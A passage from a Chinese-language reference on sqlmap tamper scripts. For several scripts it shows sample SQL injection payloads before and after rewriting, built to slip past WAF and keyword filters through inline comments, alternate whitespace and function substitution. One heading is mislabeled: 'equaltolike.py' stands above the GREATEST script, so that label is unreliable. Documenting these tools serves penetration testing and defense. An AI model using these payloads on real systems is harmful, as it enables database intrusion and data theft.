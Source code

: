 使用脚本后： `SELECT/**/id/**/FROM/**/users`

**equaltolike.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5

作用：将 `=` 替换为 `LIKE`

使用脚本前： `tamper('SELECT * FROM users WHERE id=1')`

使用脚本后： `SELECT * FROM users WHERE id LIKE 1`

**equaltolike.py**

测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0

作用：将 `>` 替换为GREATEST，绕过对 `>` 的过滤

使用脚本前： `tamper('1 AND A > B')`

使用脚本后： `1 AND GREATEST(A,B+1)=A`

**ifnull2ifisnull.py**

适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)

测试通过数据库：MySQL 5.0 and 5.5

作用：将类似于 `IFNULL(A, B)` 替换为 `IF(ISNULL(A), B, A)` ，绕过对 `IFNULL` 的过滤

使用脚本前： `tamper('IFNULL(1, 2)')`

使用脚本后： `IF(ISNULL(1),2,1)`

**modsecurityversioned.py**

适用数据库：MySQL

测试通过数据库：MySQL 5.0

作用：过滤空格，使用mysql内联注释的方式进行注入

使用脚本前： `tamper('1 AND 2>1--')`

使用脚本后： `1 /*!30874AND 2>1*/--`

**space2mysqlblank.py**

适用数据库：MySQL

测试通过数据库：MySQL 5.1

作用：将空格替换为其他空格符号 `('%09', '%0A', '%0C', '%0D', '%0B')`

使用脚本前： `tamper('SELECT id FROM users')`

使用脚本后： `SELECT%0Bid%0DFROM%0Cusers`

**modsecurityzeroversioned.py**

适用数据库：MySQL

测试通过数据库：MySQL 5.0

作用：使用内联注释方式 `（/*!00000*/）` 进行注入
